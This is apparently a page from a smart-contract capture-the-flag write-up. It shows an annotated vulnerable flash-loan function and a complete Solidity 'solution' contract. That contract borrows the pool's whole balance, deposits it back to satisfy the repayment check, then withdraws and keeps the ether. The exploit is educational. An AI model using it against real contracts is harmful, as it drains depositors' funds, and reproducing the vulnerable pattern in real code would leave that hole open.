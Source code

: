 ```solidity
        // @audit amount not checked for ZERO
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}(); //@audit yes this call the execute function which is payable and can be modified and we can call deposit through that function with poolBalance amount

        if (address(this).balance < balanceBefore) revert RepayFailed();
    }
```

- **Solution:**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

//import "solady/src/utils/SafeTransferLib.sol";

contract IFlashLoanEtherReceiver{

    address payable public pool;
    uint256 public amount;

    constructor(address payable _pool)
    {
        pool = _pool;
        amount = pool.balance;
    }
    //We here call flashLoan with the amount of poolBalance
    function hackLoan() public{
        (bool success,) = pool.call(abi.encodeWithSignature("flashLoan(uint256)", amount));

        require(success,"Failed Hack Loan");
    }
    //Here we call the deposit function inside to execute as our flashLoan calls execute function inside itself
    function execute() external payable{
        (bool success,) = pool.call{value:amount}(abi.encodeWithSignature("deposit()"));
        require(success,"Failed Executed Deposit");
    }
    //After depositing we call withdraw function   
    function hackWithdraw() public{
        (bool success,) = pool.call(abi.encodeWithSignature("withdraw()"));
        require(success,"Failed Hack Withdraw");
        payable(msg.sender).transfer(amount);
    }      
    receive() external payable{}   
}
```
